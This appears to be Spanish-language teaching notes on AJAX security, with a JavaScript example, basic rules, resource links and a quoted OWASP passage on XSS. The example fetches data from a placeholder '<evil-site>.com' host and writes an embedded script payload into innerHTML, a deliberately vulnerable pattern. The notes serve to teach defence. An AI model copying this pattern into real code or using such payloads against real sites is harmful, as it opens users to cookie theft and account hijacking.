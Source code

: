 ```javascript
// <evil-site>.com/hacked 
// {data:"<script>alert("¡Sorpresa!")</script>"}

var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://<evil-site>.com/hacked');
xhr.onload = function() {
    if (xhr.status === 200) {
    	var respuesta = JSON.parse(xhr.responseText)
        console.log("respuesta:", respuesta);
        document.body.innerHTML = respuesta.data
    }
};
xhr.send();
```

**Normas básicas**
- Usar `innerText` y no `innerHtml`
- Nunca jamas usar `eval`
- Nunca encriptar en cliente
- No confies en la lógica del front


**Recursos**

- [Is Your Website Hackable?](https://www.acunetix.com/websitesecurity/ajax/)
- [AJAX Security Cheat Sheet](https://www.owasp.org/index.php/AJAX_Security_Cheat_Sheet)
- [Testing for AJAX Vulnerabilities (OWASP-AJ-001)](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))
- [Understanding Ajax vulnerabilities](https://www.ibm.com/developerworks/library/wa-vulnerabilities/index.html)
- [JSON Hijacking](https://haacked.com/archive/2009/06/25/json-hijacking.aspx/)
- [Ajax Security Basics](https://www.symantec.com/connect/articles/ajax-security-basics)
- [Top 10 Ajax Security Holes and Driving Factors](https://www.helpnetsecurity.com/2006/11/10/top-10-ajax-security-holes-and-driving-factors/)
- [20 high profile sites vulnerable to XSS attacks](https://www.acunetix.com/blog/news/full-disclosure-high-profile-websites-xss/)


### Seguridad AJAX: Tipos de Ataques

**Cross-site scripting (XSS)**
> Cross-site Scripting (XSS) is a technique by which malicious content is injected in the form of HTML/JavaScript code. XSS exploits can be used for triggering various other attacks like cookie theft, account hijacking, phishing, and denial of service.
> The Browser and AJAX Requests look identical, so the server is not able to classify them. Consequently, it won't be able to discern who made the request in the background. A JavaScript program can use AJAX to request a resource that occurs in the background without the user's knowledge. The browser will automatically add the necessary authentication or state-keeping information such as cookies to the request. JavaScript code can then access the response to this hidden request and then send more requests. This expansion of JavaScript functionality increases the possible damage of a Cross-Site Scripting attack.
> Also, an XSS attack could send requests for specific pages other than the page the user is currently looking at. This allows the attacker to actively look for certain content, potentially accessing the data.
> The XSS payload can use AJAX requests to autonomously inject itself into pages and easily re-inject the same host with more XSS (like a virus), all of which can be done with no hard refresh. Thus, XSS can send multiple requests using complex HTTP methods to propagate itself invisibly to the user. 
> [OWASP](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))
